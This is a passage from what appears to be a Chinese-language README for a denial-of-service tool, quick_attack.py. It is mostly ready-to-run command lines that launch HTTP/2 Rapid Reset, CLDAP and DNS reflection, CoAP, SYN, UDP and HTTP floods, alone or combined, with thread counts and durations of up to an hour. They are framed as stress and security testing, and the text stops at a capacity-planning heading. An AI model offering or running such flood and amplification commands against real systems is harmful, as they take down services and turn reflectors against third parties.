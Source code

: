 ### 攻击示例

**2025年最新测试**:
```bash
# HTTP/2 Rapid Reset测试 (需要域名 - 应用层攻击)
python3 quick_attack.py test.local -p 443 -m http2 -c 300 -t 600

# CLDAP反射测试 (可用IP - 网络层攻击)
python3 quick_attack.py 192.168.1.100 -m cldap -c 150 -t 900

# CoAP IoT设备测试 (可用IP - UDP协议)
python3 quick_attack.py 192.168.1.200 -p 5683 -m coap -c 80 -t 300
```

**经典测试方法**:
```bash
# DNS放大测试 (可用IP - 反射攻击)
python3 quick_attack.py 192.168.1.100 -m dns -c 100 -t 600

# SYN洪水测试 (可用IP - 网络层攻击)
python3 quick_attack.py 192.168.1.100 -m syn -c 200 -t 600

# HTTP洪水测试 (需要域名 - 应用层攻击)
python3 quick_attack.py test.local -p 80 -m http -c 150 -t 900
```

**组合测试**:
```bash
# 网络层组合 (全部支持IP)
python3 quick_attack.py 192.168.1.100 -m "cldap,dns,udp,syn" -c 300 -t 3600

# 应用层组合 (需要域名)
python3 quick_attack.py test.local -m "http2,http" -c 200 -t 1200

# 混合层级测试 (根据方法选择目标类型)
# HTTP/2 -> 域名, UDP/SYN -> IP
python3 quick_attack.py test.local -m http2 -t 600
python3 quick_attack.py 192.168.1.100 -m "udp,syn" -t 600
```

---

## 🎯 使用场景

### 网络安全测试

- **Web服务器压力测试**: 使用HTTP/2 Rapid Reset测试现代Web服务器
- **企业网络评估**: 使用CLDAP反射测试企业LDAP基础设施
- **IoT设备安全**: 使用CoAP测试智能设备的安全性
- **防护系统验证**: 测试现有防护系统的有效性

### 容量规划
